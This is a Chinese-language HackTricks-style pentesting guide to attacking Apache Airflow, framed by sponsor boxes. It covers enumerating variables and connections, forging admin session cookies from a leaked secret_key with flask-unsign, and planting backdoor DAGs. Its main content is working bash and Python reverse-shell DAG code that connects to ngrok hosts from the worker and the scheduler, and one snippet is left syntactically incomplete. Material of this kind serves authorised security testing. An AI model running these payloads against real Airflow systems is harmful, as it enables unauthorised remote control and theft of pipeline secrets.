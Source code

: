 # Apache Airflow 安全

<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果您想在 HackTricks 中看到您的公司广告，或者如果您想访问 PEASS 的最新版本或下载 HackTricks 的 PDF，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS 和 HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>

## 基本信息

[**Apache Airflow**](https://airflow.apache.org) 用于**调度和编排数据管道或工作流**。数据管道的编排是指从不同来源**对复杂数据管道进行排序、协调、调度和管理**。这些数据管道提供的数据集可以被商业智能应用程序和数据科学、支持大数据应用的机器学习模型使用。

基本上，Apache Airflow 允许您在**发生某些事件或定时任务时**，**调度代码的执行**。

## 本地实验室

### Docker-Compose

您可以使用来自 [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) 的 **docker-compose 配置文件**启动完整的 Apache Airflow Docker 环境。（如果您使用的是 MacOS，请确保为 Docker 虚拟机分配至少 6GB 的 RAM）。

### Minikube

运行 Apache Airflow 的一种简单方法是使用 minikube 运行它：
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow配置

Airflow可能会在其配置中存储**敏感信息**，或者您可能会发现存在弱配置：

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

在开始攻击Airflow之前，您应该了解**权限如何工作**：

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## 攻击

### Web控制台枚举

如果您可以**访问Web控制台**，您可能能够访问以下一些或全部信息：

* **变量**（自定义敏感信息可能存储在此处）
* **连接**（自定义敏感信息可能存储在此处）
* 在`http://<airflow>/connection/list/`中访问它们
* [**配置**](./#airflow-configuration)（敏感信息，如**`secret_key`**和密码可能存储在此处）
* 列出**用户和角色**
* **每个DAG的代码**（可能包含有趣的信息）

### 检索变量值

Airflow可以存储变量，以便**DAG**可以**访问**它们的值。这类似于其他平台的密钥。如果您具有**足够的权限**，可以在GUI中的`http://<airflow>/variable/list/`中访问它们。\
默认情况下，Airflow将在GUI中显示变量的值，但是根据[**这里**](https://marclamberti.com/blog/variables-with-apache-airflow/)的说明，可以设置一个**变量列表**，其中**值**将显示为**星号**在**GUI**中。

![](<../../.gitbook/assets/image (79).png>)

然而，这些**值**仍然可以通过**CLI**（需要具有数据库访问权限）、**任意DAG**执行、**API**访问变量端点（需要激活API），甚至是**GUI本身**来检索。\
要从GUI中访问这些值，只需**选择要访问的变量**，然后**点击操作 -> 导出**。\
另一种方法是通过执行**暴力破解**来获取**隐藏值**，使用**搜索过滤**直到找到它为止：

![](<../../.gitbook/assets/image (30).png>)

### 权限提升

如果将**`expose_config`**配置设置为**True**，从**用户角色**及以上的角色可以在Web中**读取**配置。在此配置中，出现了**`secret_key`**，这意味着任何具有此有效密钥的用户都可以**创建自己的签名cookie来冒充任何其他用户帐户**。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG后门（在Airflow worker中执行远程命令执行）

如果您对保存DAG的位置具有**写访问权限**，您可以**创建一个DAG**，该DAG将向您发送一个**反向shell**。\
请注意，此反向shell将在**airflow worker容器**中执行：
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG后门（在Airflow调度器中的远程代码执行）

如果你将某个东西设置为在**代码的根目录中执行**，在撰写本文时，它将在将其放入DAG文件夹后的几秒钟后由调度器**执行**。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG创建

如果您成功**入侵DAG集群中的一台机器**，您可以在`dags/`文件夹中创建新的**DAG脚本**，并且它们将被**复制到DAG集群中的其他机器**。

### DAG代码注入

当您从GUI执行DAG时，可以向其**传递参数**。\
因此，如果DAG的编码不正确，它可能**容易受到命令注入攻击**。\
这就是此CVE中发生的情况：[https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

您需要知道的**开始在DAG中寻找命令注入漏洞**的所有内容是，**参数**是通过代码**`dag_run.conf.get("param_name")`**进行**访问**的。

此外，相同的漏洞可能会出现在**变量**中（请注意，如果具有足够的权限，您可以在GUI中**控制变量的值**）。变量是通过以下方式进行**访问**的：
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
如果它们例如被用在一个bash命令中，你可以执行命令注入攻击。

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果你想看到你的**公司在HackTricks中被广告**，或者如果你想访问**PEASS的最新版本或下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获得[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或者 [**Telegram群组**](https://t.me/peass) 或者 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享你的黑客技巧。**

</details>
